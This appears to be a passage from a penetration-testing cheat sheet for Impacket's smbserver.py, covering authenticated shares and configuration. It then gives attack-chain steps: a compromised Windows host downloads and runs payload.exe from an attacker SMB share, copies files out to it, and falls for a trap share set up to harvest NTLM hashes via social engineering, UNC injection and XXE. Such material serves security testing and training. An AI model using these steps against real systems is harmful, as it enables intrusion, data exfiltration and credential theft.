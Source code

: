 ### Authenticated File Sharing
```bash
# SMB share with password authentication
sudo python3 smbserver.py -username user -password Password123! SHARE /tmp/files

# SMB share with NTLM hash authentication
sudo python3 smbserver.py -username user -hashes :5e884898da28047151d0e56f8dc6292773603d0d SHARE /tmp/files

# Prompt for password (more secure)
sudo python3 smbserver.py -username admin SHARE /tmp/files
# Password: [enter password when prompted]
```

### Advanced Configuration
```bash
# Enable experimental SMB2 support
sudo python3 smbserver.py -smb2support SHARE /tmp/files

# Log output to file
sudo python3 smbserver.py -outputfile smbserver.log SHARE /tmp/files

# Debug mode with timestamps
sudo python3 smbserver.py -debug -ts SHARE /tmp/files
```

## Attack Chain Integration

### File Transfer and Staging
```bash
# Step 1: Set up SMB server for file transfer
sudo python3 smbserver.py FILES /tmp/payloads

# Step 2: From compromised Windows machine, access files
# On Windows target:
# net use Z: \\192.168.1.100\FILES
# copy Z:\payload.exe C:\temp\
# Z:\payload.exe

# Step 3: Two-way file transfer
# On Windows: copy important.txt \\192.168.1.100\FILES\
```

### Credential Harvesting
```bash
# Step 1: Set up SMB server with authentication
sudo python3 smbserver.py -username fake -password fake TRAP /tmp/empty

# Step 2: Trigger authentication attempts via various methods:
# - Social engineering (send links to \\yourip\TRAP\file.txt)
# - Web-based UNC injection (in forms, uploads, etc.)
# - Email with UNC paths
# - XXE attacks pointing to SMB shares

# Step 3: Monitor logs for NTLM authentication attempts
# The server will log failed authentication attempts with NTLM hashes
```
